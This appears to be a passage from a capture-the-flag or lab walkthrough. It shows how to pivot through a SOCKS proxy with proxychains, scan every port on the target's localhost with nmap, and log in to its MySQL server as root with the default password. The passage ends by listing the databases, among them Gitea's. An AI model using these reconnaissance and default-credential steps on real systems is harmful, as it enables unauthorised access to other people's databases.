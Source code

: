 Update `/etc/proxychains4.conf` if necessary:

```
socks4 127.0.0.1 9050
```

Then scan for ports exposed on localhost:

```shell-session
└─$ proxychains nmap 127.0.0.1 -p-
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 18:10 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.018s latency).
Not shown: 65525 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
222/tcp   open  rsh-spx
3000/tcp  open  ppp
3306/tcp  open  mysql
8000/tcp  open  http-alt
8065/tcp  open  unknown
8200/tcp  open  trivnet1
42603/tcp open  unknown
58050/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1256.71 seconds
```

We found some new ports. We can connect to the MySQL port (3306) with default credentials:

```shell-session
└─$ proxychains mysql -h 127.0.0.1 -u root -proot
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 427
Server version: 8.3.0 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

It's used by Gitea:

```sql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gitea              |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.021 sec)
```

